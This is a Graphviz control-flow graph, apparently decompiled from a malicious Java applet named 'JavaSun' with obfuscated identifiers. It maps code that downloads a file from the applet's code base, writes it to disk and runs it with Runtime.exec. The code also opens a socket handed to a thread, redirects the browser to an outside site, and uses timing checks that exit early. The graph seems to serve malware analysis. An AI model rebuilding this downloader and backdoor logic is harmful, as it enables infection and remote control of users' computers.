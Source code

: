 digraph "" {
"new java.net.Socket";
 "new java.net.Socket"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
 "goto staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
 "staticinvoke <java.lang.System: long currentTimeMillis()>"->"ifcmpne.b return";
 "ifcmpne.b return"->"ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>";
 "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
 "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticinvoke <JavaSun: java.lang.String dEcmeNkhaL()>";
 "staticinvoke <JavaSun: java.lang.String dEcmeNkhaL()>"->"staticput <JavaSun: java.lang.String JYnhkeWQWC>";
 "staticput <JavaSun: java.lang.String JYnhkeWQWC>"->"new java.net.URL";
 "new java.net.URL"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
 "specialinvoke <java.lang.StringBuilder: void <init>()>"->"virtualinvoke <JavaSun: java.net.URL getCodeBase()>";
 "virtualinvoke <JavaSun: java.net.URL getCodeBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
 "virtualinvoke <java.net.URL: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
 "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
 "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"staticget <JavaSun: java.lang.String JYnhkeWQWC>";
 "staticget <JavaSun: java.lang.String JYnhkeWQWC>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
 "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
 "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"new java.io.FileOutputStream";
 "new java.io.FileOutputStream"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
 "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
 "virtualinvoke <java.io.InputStream: int read(byte[])>"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
 "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
 "virtualinvoke <java.io.InputStream: int read(byte[])>"->"goto load.i i5";
 "virtualinvoke <java.io.InputStream: int read(byte[])>"->"goto return";
 "goto return"->"return";
"virtualinvoke <java.io.InputStream: void close()>";
 "virtualinvoke <java.io.InputStream: void close()>"->"virtualinvoke <java.io.FileOutputStream: void close()>";
 "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
 "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>";
 "virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
 "new java.net.URL"->"push 'http://www.istakeu.com/'";
 "push 'http://www.istakeu.com/'"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
 "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2";
 "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"goto return";
 "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
 "staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: void exit(int)>";
 "staticinvoke <java.lang.System: void exit(int)>"->"goto staticget <WgroiAzIgc: boolean bvajgJotsh>";
"staticinvoke <JavaSun: java.lang.String LjxSzAjsaD()>";
 "staticinvoke <JavaSun: java.lang.String LjxSzAjsaD()>"->"specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>";
 "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"->"staticput <JavaSun: java.net.Socket JkTuuJgoPK>";
 "staticput <JavaSun: java.net.Socket JkTuuJgoPK>"->"new java.lang.Thread";
 "new java.lang.Thread"->"staticget <JavaSun: java.net.Socket JkTuuJgoPK>";
 "staticget <JavaSun: java.net.Socket JkTuuJgoPK>"->"specialinvoke <WgroiAzIgc: void <init>(java.net.Socket)>";
 "specialinvoke <WgroiAzIgc: void <init>(java.net.Socket)>"->"specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>";
 "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"->"staticput <JavaSun: java.lang.Thread HzULypcCNw>";
 "staticput <JavaSun: java.lang.Thread HzULypcCNw>"->"staticget <JavaSun: java.lang.Thread HzULypcCNw>";
 "staticget <JavaSun: java.lang.Thread HzULypcCNw>"->"virtualinvoke <java.lang.Thread: void start()>";
 "virtualinvoke <java.lang.Thread: void start()>"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
}
